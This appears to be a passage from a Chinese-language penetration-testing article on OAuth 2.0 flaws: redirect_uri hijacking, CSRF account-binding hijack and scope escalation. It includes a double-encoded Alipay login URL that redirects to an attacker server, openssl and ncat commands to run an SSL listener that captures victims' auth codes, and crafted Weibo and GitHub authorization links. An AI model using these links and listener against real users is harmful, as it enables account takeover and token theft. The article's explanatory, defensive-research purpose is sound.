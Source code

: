 两次url编码：

https%253a//auth.alipay.com/login/index.htm%253fgoto%253dhttps%253a//xxx.com%253a443/oauth2/publicAppAuthorize.htm%253fapp_id%253d20190%2526redirect_uri%253dhttps%253a//xxx.com/%253flogin/bind/alipay/callback%253ftoken%253doN7Jvtq7M%2526scope%253dauth_user

在VPS上生成证书，然后监听1234端口

openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

apt install nmap

ncat –ssl –ssl-cert cert.pem –ssl-key key.pem -lvnp 1234

[![](https://p0.ssl.qhimg.com/t019f2995d82c84e16e.jpg)](https://p0.ssl.qhimg.com/t019f2995d82c84e16e.jpg)

将修改好的URL链接发给普通用户，一旦他们点击登录，攻击者就能拿到他们的auth_code。

[![](https://p5.ssl.qhimg.com/t0136fe7489347e115d.jpg)](https://p5.ssl.qhimg.com/t0136fe7489347e115d.jpg)

### 2.CSRF绑定劫持漏洞

攻击者抓取认证请求构造恶意url,并诱骗已经登录的网用户点击(比如通过邮件或者QQ等方式)。认证成功后用户的帐号会同攻击者的帐号绑定到一起。

如某云的历史漏洞2014-060493，某厂商的OAuth 2.0 认证流程中，当攻击者发起一个认证请求：

https://api.weibo.com/oauth2/authorize?client_id=**&amp;redirect_uri=http%3A%2F%2Fwww.xxx.cn%2Fconnect_sync%2Fsina_v2_sync.php&amp;response_type=code

并截获OAuth 2.0 认证请求的返回。

http://www.xxx.cn/connect_sync/sina_v2_sync.php?code=6e20eb6bfea2d969a8fa5435a5d106d5

然后攻击者诱骗已经登录的网用户点击。此厂商会自动将用户的帐号同攻击者的帐号绑定到一起。此后攻击者便可以通过其新浪帐号访问受害用户的帐号。

OAuth 2.0提供了state参数用于防御CSRF.认证服务器在接收到的state参数按原样返回给redirect_uri,客户端收到该参数并验证与之前生成的值是否一致.所以此漏洞适用于未配置state参数授权的认证方式。

### 3.Scope越权访问

这个案例展示了scope权限控制不当带来的安全风险,同时将授权劫持的几个方面演绎的淋漓尽致。

案例: https://www.oschina.net/question/12_143105

https://github.com/login/oauth/authorize?client_id=7e0a3cd836d3e544dbd9&amp;redirect_uri=https%3A%2F%2Fgist.github.com%2Fauth%2Fgithub%2Fcallback/../../../homakov/8820324&amp;response_type=code&amp;scope=repo,gists,user,delete_repo,notifications

上面案例中的scope参数扩大到了用户的代码库等其它权限。于是越权拥有了用户的私有代码区操作权限。



## 总结

在我们日常的渗透测试以及学习研究过程中，不仅仅要拓展对常规漏洞(owasp top10)的研究深度，也应该拓展漏洞的宽度，毕竟你的知识面直接决定了你的攻击面。

[![](https://p3.ssl.qhimg.com/t0136d3cd8edce00027.jpg)](https://p3.ssl.qhimg.com/t0136d3cd8edce00027.jpg)
